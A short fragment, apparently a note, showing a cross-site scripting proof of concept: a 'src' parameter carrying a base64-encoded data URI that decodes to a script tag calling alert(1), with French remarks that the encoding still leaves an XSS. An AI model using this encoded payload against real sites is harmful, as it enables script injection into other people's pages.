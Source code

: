 ?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=

c'est une xss chiffrer puis dechiffrer 

qui est enfait une xss
